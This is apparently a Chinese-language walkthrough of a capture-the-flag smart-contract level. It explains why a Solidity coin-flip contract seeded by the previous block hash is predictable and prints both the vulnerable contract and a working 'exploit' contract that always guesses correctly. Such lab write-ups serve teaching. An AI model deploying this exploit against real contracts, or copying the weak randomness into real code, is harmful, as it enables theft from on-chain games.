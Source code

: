 主要过程

- 获得上一块的 `hash` 值
- 判断与之前保存的 `hash` 值是否相等，相等则回退
- 根据 `blockValue/FACTOR` 的值判断为正或负，`FACTOR` 是2^255，即通过 `hash` 的首位判断

看似随机，但是可以被预测。

硬币翻转的结果完全取决于前一个块的hash值，可以先运行一次这个算法，看当前块下得到的coin flip，然后把结果传过去即可

```js
pragma solidity ^0.6.0;

contract CoinFlip {
    
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue/FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract exploit {
  CoinFlip expFlip;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
 
  constructor(address aimAddr) public {
    expFlip = CoinFlip(aimAddr);
  }
 
  function hack() public {
    uint256 blockValue = uint256(blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool guess = coinFlip == 1 ? true : false;
    expFlip.flip(guess);
  }
}
```
